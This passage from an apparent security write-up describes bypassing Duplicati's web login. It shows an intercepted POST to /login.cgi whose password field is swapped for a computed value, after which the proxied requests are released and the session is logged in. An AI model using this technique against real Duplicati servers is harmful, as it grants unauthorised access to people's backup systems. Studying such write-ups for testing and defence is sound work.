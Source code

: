 After forwarding the server's response, we get our last login request and we update the password value:
```http
POST /login.cgi HTTP/1.1
Host: local:8200
Content-Length: 55
Pragma: no-cache
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local:8200
Referer: http://local:8200/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: default-theme=ngax; xsrf-token=SlE1q8CS4utYcxaDaMN3YRiVCFa%2BShq%2B%2FcpSyOgDmQE%3D; session-nonce=h1uPxni2c73VfnPZnJ%2BbZUyZ53Wk%2FEp6s3mAglgBKvc%3D

password=%2B%2Bf%2Fk5rLCAsD2H2CV%2FAyCYcyCIIwf1p0hnrByowC9hE%3D
```

Finally, we can disable proxy queueing and let the requests go through and we'll notice we're logged in to the Duplicati UI: